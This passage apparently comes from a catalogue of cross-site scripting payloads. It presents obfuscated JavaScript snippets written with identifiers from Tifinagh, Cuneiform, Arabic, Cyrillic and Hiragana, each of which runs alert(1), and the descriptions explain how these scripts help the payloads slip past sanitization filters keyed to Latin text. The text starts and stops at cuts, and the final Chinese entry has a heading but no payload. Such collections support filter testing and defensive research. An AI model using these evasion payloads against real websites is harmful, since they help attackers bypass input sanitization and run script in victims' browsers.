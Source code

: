 - **Description**: Using the Tifinagh script, this payload executes `alert(1)` while leveraging a script associated with Berber languages, which is uncommon in most web contexts.

### 9. Cuneiform-Based Payload
Cuneiform (Unicode U+12000–U+123FF) is a script used in ancient Mesopotamia (c. 3000 BCE–100 CE) for writing Sumerian, Akkadian, and other languages.

```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],
𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],
𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

- **Description**: This payload uses Cuneiform characters to encode JavaScript that executes alert(1). The script’s ancient origins and complex wedge-shaped symbols make it highly obscure, potentially bypassing filters that focus on Latin-based patterns.

### 10. Arabic-Based Payload
Arabic (Unicode U+0600–U+06FF) is a living script used across the Arab world, with origins in the 4th century CE, but still uncommon in XSS contexts.

```
ب='',ث=!ب+ب,ج=!ث+ب,د=ب+{},ه=ث[ب++],و=ث[ز=ب],ط=++ز+ب,ي=د[ز+ط],ث[ي+=د[ب]+(ث[ج]+د)[ب]+ج[ط]+ه+و+ث[ز]+ي+ه+د[ب]+و][ي](ج[ب]+ج[ز]+ث[ط]+و+ه+"(1)")()
```

- **Description**: This payload uses Arabic script to execute alert(1). The Arabic’s right-to-left writing and unique letter forms make it a candidate for obfuscation in environments with weak sanitization.

### 11. Russian-Based Payload
Cyrillic (Unicode U+0400–U+04FF) is a script developed in the First Bulgarian Empire (9th century CE) and used for Slavic languages like Russian.

```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б[в]+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"(1)")()
```

- **Description**: This payload uses Cyrillic characters to execute alert(1). The Cyrillic script’s similarity to Latin characters can make it blend into certain contexts, complicating detection

### 12. Japanese-Based Payload
Hiragana (Unicode U+3040–U+309F) is a japanese syllabary developed in the 9th century CE, used alongside Kanji and Katakana.

```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い[う]+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"(1)")()
```

- **Description**: This payload uses Hiragana characters to execute alert(1). Hiragana’s syllabic nature and distinct appearance make it an effective choice for XSS obfuscation.

### 13.  Chinese-Based Payload
Chinese (Unicode U+4E00–U+9FFF, CJK Unified Ideographs) is a logographic script with origins in the 2nd millennium BCE, used for Chinese and related languages.
